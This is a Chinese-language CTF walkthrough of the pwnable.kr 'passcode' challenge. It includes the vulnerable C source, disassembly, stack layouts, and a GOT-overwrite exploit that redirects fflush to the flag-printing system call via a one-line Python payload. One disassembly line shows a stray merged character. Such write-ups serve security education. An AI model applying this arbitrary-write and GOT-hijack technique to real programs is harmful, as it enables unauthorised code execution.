

题目在

```
ssh passcode@pwnable.kr -p2222 (pw:guest)
```

先看`passcode.c`：

```
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1); // 控制
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag"); // 目标
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

先看`login`，我们的目标是执行`system`函数，这个函数位于`if`里面，判断条件是`passcode1`和`passcode2`的值。

但是上面的`scanf`中，作者忘了写取地址`&`，导致我们不能通过`scanf`控制这两个函数的值。也就是说，我们只能够写入`scanf`所指向的地址，而且如果它不能写入就崩溃。

然后我们看一下汇编，同目录下有个`passcode`，拿`objdump`反编译：

先是`main`：

```
08048665 <main>:
 8048665:   55                      push   %ebp
 8048666:   89 e5                   mov    %esp,%ebp
 8048668:   83 e4 f0                and    $0xfffffff0,%esp
 804866b:   83 ec 10                sub    $0x10,%esp
 804866e:   c7 04 24 f0 87 04 08    movl   $0x80487f0,(%esp)
 8048675:   e8 d6 fd ff ff          call   8048450 <puts@plt>
 804867a:   e8 8a ff ff ff          call   8048609 <welcome>
 804867f:   e8 e0 fe ff ff          call   8048564 <login>
 8048684:   c7 04 24 18 88 04 08    movl   $0x8048818,(%esp)
 804868b:   e8 c0 fd ff ff          call   8048450 <puts@plt>
 8048690:   b8 00 00 00 00          mov    $0x0,%eax
 8048695:   c9                      leave  
 8048696:   c3                      ret 
```

我们可以看到，按照他这种调用方式，`login`和`welcome`的栈基址（EBP）是相同的。

然后是`welcome`：

```
08048609 <welcome>:
 8048609:   55                      push   %ebp
 804860a:   89 e5                   mov    %esp,%ebp
 804860c:   81 ec 88 00 00 00       sub    $0x88,%esp
 8048612:   65 a1 14 00 00 00       mov    %gs:0x14,%eax
 8048618:   89 45 f4                mov    %eax,-0xc(%ebp) ; canary
 804861b:   31 c0                   xor    %eax,%eax
 804861d:   b8 cb 87 04 08          mov    $0x80487cb,%eax
 8048622:   89 04 24                mov    %eax,(%esp)
 8048625:   e8 f6 fd ff ff          call   8048420 <printf@plt>
 804862a:   b8 dd 87 04 08          mov    $0x80487dd,%eax
 804862f:   8d 55 90                lea    -0x70(%ebp),%edx ; name[100]
 8048632:   89 54 24 04             mov    %edx,0x4(%esp)
 8048636:   89 04 24                mov    %eax,(%esp)
 8048639:   e8 62 fe ff ff          call   80484a0 <__isoc99_scanf@plt>
 804863e:   b8 e3 87 04 08          mov    $0x80487e3,%eax
 8048643:   8d 55 90                lea    -0x70(%ebp),%edx
 8048646:   89 54 24 04             mov    %edx,0x4(%esp)
 804864a:   89 04 24                mov    %eax,(%esp)
 804864d:   e8 ce fd ff ff          call   8048420 <printf@plt>
 8048652:   8b 45 f4                mov    -0xc(%ebp),%eax
 8048655:   65 33 05 14 00 00 00    xor    %gs:0x14,%eax
 804865c:   74 05                   je     8048663 <welcome+0x5a>
 804865e:   e8 dd fd ff ff          call   8048440 <__stack_chk_fail@plt>
 8048663:   c9                      leave  
 8048664:   c3                      ret 
```

我们可以推断出栈帧的情况：

```
+-------------+ <- ebp - 0x70
|  name[100]  |
|  (0x64)     |
+-------------+ <- ebp - 0xc
|   canary    |
+-------------+
|    ?        |
+-------------+
|    ?        |
+-------------+ <- ebp
|  old ebp    |
+-------------+
|  ret addr   |
+-------------+
```

我们看到这个函数启用了栈检测，也就是说，不能将返回地址直接覆盖为目标地址（如果这样就太简单了）。

然后是`login`：

```
08048564 <login>:
 8048564:   55                      push   %ebp
 8048565:   89 e5                   mov    %esp,%ebp
 8048567:   83 ec 28                sub    $0x28,%esp
 804856a:   b8 70 87 04 08          mov    $0x8048770,%eax
 804856f:   89 04 24                mov    %eax,(%esp)
 8048572:   e8 a9 fe ff ff          call   8048420 <printf@plt>
 8048577:   b8 83 87 04 08          mov    $0x8048783,%eax
 804857c:   8b 55 f0                mov    -0x10(%ebp),%edx ; passcode1
 804857f:   89 54 24 04             mov    %edx,0x4(%esp)
 8048583:   89 04 24                mov    %eax,(%esp)
 8048586:   e8 15 ff ff ff          call   80484a0 <__isoc99_scanf@plt>
 804858b:   a1 2c a0 04 08          mov    0x804a02c,%eax
 8048590:   89 04 24                mov    %eax,(%esp)
 8048593:   e8 98 fe ff ff          call   8048430 <fflush@plt>
 8048598:   b8 86 87 04 08          mov    $0x8048786,%eax
 804859d:   89 04 24                mov    %eax,(%esp)
 80485a0:   e8 7b fe ff ff          call   8048420 <printf@plt>
 80485a5:   b8 83 87 04 08          mov    $0x8048783,%eax
 80485aa:   8b 55 f4                mov    -0xc(%ebp),%edx ; passcode2
 80485ad:   89 54 24 04             mov    %edx,0x4(%esp)
 80485b1:   89 04 24                mov    %eax,(%esp)
 80485b4:   e8 e7 fe ff ff          call   80484a0 <__isoc99_scanf@plt>
 80485b9:   c7 04 24 99 87 04 08    movl   $0x8048799,(%esp)
 80485c0:   e8 8b fe ff ff          call   8048450 <puts@plt>
 80485c5:   81 7d f0 e6 28 05 00    cmpl   $0x528e6,-0x10(%ebp)
 80485cc:   75 23                   jne    80485f1 <login+0x8d>
 80485ce:   81 7d f4 c9 07 cc 00    cmpl   $0xcc07c9,-0xc(%ebp)
 80485d5:   75 1a                   jne    80485f1 <login+0x8d>
 80485d7:   c7 04 24 a5 87 04 08    movl   $0x80487a5,(%esp) ; success
 80485de:   e8 6d fe ff ff          call   8048450 <puts@plt>
 80485e3:   c7 04 24 af 87 04 08    movl   $0x80487af,(%esp) ; target
 80485ea:   e8 71 fe ff ff          call   8048460 <system@plt>
 80485ef:   c9                      leave  
 80485f0:   c3                      ret    
 80485f1:   c7 04 24 bd 87 04 08    movl   $0x80487bd,(%esp) ; fail
 80485f8:   e8 53 fe ff ff          call   8048450 <puts@plt>
 80485fd:   c7 04 24 00 00 00 00    movl   $0x0,(%esp)z 8048604:   e8 77 fe ff ff          call   8048480 <exit@plt>
```

可以画出栈帧如图：

```
+-------------+ <- ebp - 0x10
|  passcode1  |
+-------------+ <- ebp - 0xc
|  passcode2  |
+-------------+
|    ?        |
+-------------+
|    ?        |
+-------------+ <- ebp
|  old ebp    |
+-------------+
|  ret addr   |
+-------------+
```

对比这两个栈帧可以发现，`passcode1`是`name`的最后四个字节，`passcode2`就是 canary。也就是说我们没办法控制`passcode2`，但有办法控制`passcode1`，所以我们有办法向一个随机地址内写四个字节。

那么我们需要用到一个（不是那么）高级技巧，将`fflush`或者`printf`的地址覆盖成我们的目标地址，也就是`080485e3`。我这里选择`fflush`进行演示吧。由于`fflush`是库函数，它拥有 GOT，GOT 又是可写的，所以可以这么做。

我们先查看`fflush`的 PLT：

```
08048430 <fflush@plt>:
 8048430:   ff 25 04 a0 04 08       jmp    *0x804a004
 8048436:   68 08 00 00 00          push   $0x8
 804843b:   e9 d0 ff ff ff          jmp    8048410 <_init+0x30>
```

`0804a004`就是`fflush`的 GOT 地址。简单来说，就是如果把这个地址的内容写成`080485e3`，那他就会执行对吧。所以`welcome`中`name`的最后四个字节应该是`0804a004`，这里需要写成小端形式，`\x04\xa0\x04\x08`。然后`login`的`scanf`中输入目标地址，也就是`080485e3`，转化成十进制是`134514147`。

好，我们构造 payload：

```
python -c "print 'a'*96+'\x04\xa0\x04\x08\n134514147\n'" | ./passcode
```



成功～